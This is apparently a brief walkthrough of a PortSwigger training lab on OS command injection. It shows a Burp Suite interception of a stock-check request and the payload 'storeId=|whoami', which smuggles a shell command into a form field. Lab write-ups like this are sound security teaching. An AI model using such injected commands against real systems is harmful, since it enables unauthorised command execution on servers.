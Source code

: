 ## Welcome, my friend. Today we will start the [1. OS Injection lab](https://portswigger.net/web-security/os-command-injection/lab-simple) in ```portswigger```


# Let's play this lab:

![image](https://github.com/user-attachments/assets/fbee74c2-5dee-4a51-a8d8-0c47a8a91d77)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/87f6ccf6-a97d-4502-b591-2f90c7ffc3e0)

### Well, we found ```Check Stock``` button , Start Burp suite and intercept the request:

![image](https://github.com/user-attachments/assets/39c7fa81-4aed-4102-811c-58103dfdfb32)

```
productId=4&storeId=1
```
 <br>
 
### This storeId parameter is vulerable.

### inject os command inside this parameter:


```
productId=5&storeId=|whoami
```

![image](https://github.com/user-attachments/assets/451a5d74-211e-4853-bb04-de01576737be)

![image](https://github.com/user-attachments/assets/cf3ad300-cdcb-4bf1-a5eb-df73b2a98949)

Well, We Congratulations, the lab has been solved successfully.




<p align="center">
<img src="https://github.com/user-attachments/assets/4fa0f953-ea23-4601-b5b8-f6bb37b970c4" >
</p>

